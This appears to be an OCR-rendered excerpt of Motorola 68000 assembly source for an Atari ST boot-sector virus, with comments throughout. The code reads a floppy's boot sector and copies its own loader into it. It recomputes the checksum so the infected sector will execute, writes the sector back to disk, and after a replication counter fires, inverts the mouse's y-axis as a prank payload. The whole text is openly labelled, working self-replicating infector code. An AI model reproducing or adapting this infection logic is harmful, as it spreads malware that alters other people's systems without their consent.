 ```asm
            MOVE.L    A5,-(sp)                          ; buf = (BOOTSECT_BUF)
            MOVE.W    #FLOPRD,-(sp) 	                ; FLOPRD 
            TRAP      #XBIOS 
            ADDA.L    #$14,sp                           ; fix stack
            TST.W     D0                                ; 0 = success      
            BMI       HDV_HPB_VECTOR_END                ; else quit 
PATCH_BOOT:
            MOVE.W    #$601C,(A5)                       ; patch read bootloader buffer with BRA
            ADDA.L    #$1E,A5                           ; advance buffer to bootloader start ($1E)
            LEA       LOADER(PC),A4                     ; A4 = start bootsector program
            LEA       PROG_END(PC),A3                   ; A3 = end
COPY_LOADER_2:      
            MOVE.W    (A4)+,(A5)+                       ; copy virus prg
            CMPA.L    A3,A4 
            BLT.S     COPY_LOADER_2 
            MOVEA.L   A6,A5 
            MOVE.W    #$FE,D1                           ; D1 = 254 bytes
            MOVE.W    #BOOT_CHK,D0                      ; CHK bootsector value 
CALC_BOOT_CHK:      
            SUB.W     (A5)+,D0                        
            DBF       D1,CALC_BOOT_CHK
            MOVE.W    D0,(A5)                           ; add remainder to make bootsector executable

            MOVE.L    #(0 << 16 | 1),-(sp)              ; count: 1 | side: 0
            MOVE.L    #(1 << 16 | 0),-(sp)              ; track: 0 | sector: 1
            MOVE.W    D7,-(sp)                          ; dev, D7 contains A or B (0 or 1)
            CLR.L     -(sp)                             ; rsrvd = 0
            MOVE.L    A6,-(sp)                          ; buf = (BOOTSECT_BUF)
            MOVE.W    #FLOPWR,-(sp) 	                ; FLOPWR 
            TRAP      #XBIOS                             
            ADDA.L    #$14,sp                           ; fix stack
            TST.W     D0                                ; success if 0
            BMI       HDV_HPB_VECTOR_END                ; else quit
            ADDI.L    #1,COUNTER_ADDR.W                 ; add replication counter of 1
            CMPI.L    #5,COUNTER_ADDR.W                 ; if not 5 quit (starting fron 251, meaning 10 iterations then reset to 0 so 5 to 5)
            BNE       HDV_HPB_VECTOR_END         
            CLR.L     COUNTER_ADDR.W                    ; else set mousevec
            MOVE.W    #KBDVBASE,-(sp) 	                ; Kbdvbase() returns a pointer to a system structure containing a ‘jump’ table to system vector handlers.
            TRAP      #XBIOS 
            ADDQ.L    #2,sp                             ; fix stack, midivec, vkbderr, vmiderr , statvec, mousevec, clockvec, joyvec pointers struct in set in D0
            ADD.L     #MOUSEVEC_OFFSET,D0               ; D0+16 => mousevec
            EXG       A0,D0                             ; A0 = mousevec address

            MOVE.L    (A0),-(sp) ;4                     ; add mousev vector to stack
            PEA       INITMOUS_PARAMS(PC)  ;4           ; push INITMOUS_PARAMS content: 0x01 | 0x01 | 0x01 | 0x01
                                                        ; param 0 = 1 : y origin at top, this will inverse
                                                        ; param 1 = 1 : buttons events as mouse packets
                                                        ; param 2 = 1 : x theshold increment of 1
                                                        ; param 3 = 1 : y threshold increment of 1
            MOVE.L    #1,-(sp)   ;4                     ; 0 | 1 : opcode 0 initmouse, mode 1: mouse in relative
            TRAP      #XBIOS                            ; XBIOS initmouse(mode, params, vector)
            ADDA.L    #$C,sp     ;12                    ; fix stack

            EORI.B    #1,INITMOUS_PARAMS_ADDR.W         ; Invert INITMOUS_PARAMS_ADDR[0] = y origin to 1 to let people think this is done :D
```